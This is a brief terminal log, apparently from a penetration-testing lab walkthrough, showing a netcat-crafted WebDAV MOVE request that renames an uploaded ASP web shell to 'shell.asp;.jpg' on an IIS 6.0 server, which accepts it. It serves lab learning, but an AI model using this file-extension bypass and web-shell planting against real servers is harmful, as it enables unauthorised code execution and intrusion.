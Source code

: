 root@kali:~/hacking/10.11.1.229# nc -nv 10.11.1.229 80
(UNKNOWN) [10.11.1.229] 80 (http) open
MOVE /shell.asp_ HTTP/1.1
HOST: 10.11.1.229
DESTINATION: /shell.asp;.jpg

HTTP/1.1 207 Multi-Status
Date: Tue, 05 Dec 2017 16:36:59 GMT
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
Location: http://10.11.1.229/shell.asp;.jpg
Content-Type: text/xml
